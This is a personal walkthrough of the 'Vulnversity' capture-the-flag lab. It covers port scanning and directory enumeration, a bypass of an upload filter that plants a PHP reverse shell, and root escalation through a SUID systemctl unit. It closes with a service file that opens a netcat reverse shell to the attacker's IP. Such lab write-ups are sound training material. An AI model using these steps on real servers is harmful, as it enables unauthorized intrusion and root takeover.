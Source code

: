 # Vulnversity

## Task 1 - Deploy the machine
Click the Start Machine button. I hab been using the Start AttackBox at the top header to use the web based machine provided to save time, but I did not like some of the limitations of this setup so I went ahead and setup the OpenVPN on Kali machine.

## Task 2 - Reconnaissance
Run nmap against the target ip. The ip is given at the top header of the page once the machine is started:
```bash
nmap -sV <targetIP>
```

### Q&A
The output will list the open ports, in my case there was 6.
squid proxy version was listed as 3.5.12 from that output as well.
`-p-400` will scan 400 ports.
If the flag `-n` is used, we are telling nmpa NOT to resolve DNS.
The most likely operating system this machine is running is Ubuntu, although I feel Linux should suffice for this?! This was also in the output of the scan.
The web server is/was running on port 3333, it looks to be an apache server.

## Task 3 - Locating directories using GoBuster
"GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories."

In short, for the purpose of this lab it is going to help us enumerate useful components of the page including directories/pages for us to look into as part of our recon.

I ran the following command:
`gobuster dir -u http://<targetIP>:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

From the output I see an `/internal` directory listed.
Let's use our trusty Firefox browser and go to it:
`http://<targetIP>:3333/internal/`
And look at what we have here:
![/internal/ Upload Form](UploadForm-Internal.png)

## Task 4 -  Compromise the webserver
For Task 4 we are going to leverage the upload feature to push a file to the webserver and then execute our code to compromise the server.

### Q&A
`.php` extension files seemed to be blocked. This makes sense since they don't want to allow you to upload your own code and run it on the server.
- While it is a nice attempt to try to stop us, I am confident this logic won't suffice into preventing us to upload code to the server :)

Now we are going to use Burp Suite to figure out what extensions are allowed to be pushed to the server. We are given a list of extensions to try:
```
.php
.php3
.php4
.php5
.phtml
```
I went ahead and created a file in the desktop:
`touch ext_list.txt`
Added the extensions to the text file:
`vim ext_list.txt`

### Burp Suite Intruder
We attempt to upload a file to see what the request from the form looks like and intercept it with Burp Suite. We right click on the payload and send it to intruder for our fuzzing/bruteforce extension attack. We must load our list that we just created from the Intruder -> Payloads tab:
![Ext Payload List](Burp_Intruder_Payload.png)

We find that the `.phtml` extension is allowed, and this is our ticket!

### Reverse Web Shell
We follow the link for some code for a PHP web reverse shell. I copied the code from the GitHub page and we jmust change the ip to your given IP, the line number is `49` (follow red arrow):
![Reverse Shell IP](reverse_shell_ip.png)

Now we setup our netcat listener:
`nc -lvnp 1234`
Now we go to the "page" of our code we just uploaded: `http://<targetIP>:3333/internal/uploads/php-reverse-shell.phtml`
This runs the code on the server, and....success:
By going 
![nc + pwned](reverseSh_success.png)

#### Q&A
We are asked who is the user that manges the webserver. That is a bit of a tricky question, as you may think that the use would be this `www-data`, but that is the user created to run the webserver. 

We need to do a bit of digging around...
We can look at the home directory and the etc/passwd file and we find that there is a **bill** in both, thus it must be our user and it sure turns out that it is.

For the flag we just `cat /home/bill/user.txt`

### Privilege Escalation
In this section it is explained to us the concept of SUID. This allows a user to run a program or access a file with the permissions of the owner of that program or file. If we can find the right program or file it can potentially allows us to takeover the box by escalating our privileges.
- **Note:** The concept of privilege escalation is that you trying to get access beyond your user predefined authorizations. 

We use the command `find / -user root -perm -4000 -exec ls -ldb {} \;` to find said program or files.
However, we could also use LinPEAS script available at:
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
This highlights the bins that could potentially allow you to priv esc, rather than digging through the output yourself.

I did this manually, I scraped output the relevant output:
```
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
```
Of interest to us is going to be `/bin/systemctl`, it is used as an interface to systemd and to interact with services running on a system....or to start services :)

For systemctl, we can leverage the man page:
https://www.man7.org/linux/man-pages/man1/systemctl.1.html
We can also get the man page by running `man systemctl` from our host system shell.

But we can also google for `using systemctl for privilege escalation`, this might get us somewhere faster! One of the top search results is:
https://gtfobins.github.io/gtfobins/systemctl/

We get this shell snippet:
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
From that we'll create our own environment variable to leverage in our prev esc attack and change some of those parameters to get to our file contents and dump in a file that we can access.

```
PWN=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root.txt"
[Install]
WantedBy=multi-user.target' > $PWN
/bin/systemctl link $PWN
/bin/systemctl enable --now $PWN
```
And it looks like it worked!
![PWNED](pwned.png)

Now we just `cat /tmp/root.txt` and we are golden :)

In theory, we could step this up and try to get a root shell with something like this:
```
RevSH=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "nc <ourIP> 5555 –e /bin/sh"
[Install]
WantedBy=multi-user.target' > $RevSH
/bin/systemctl link $RevSH
/bin/systemctl enable --now $RevSH
```
And listen with `nc -lvnp 5555`
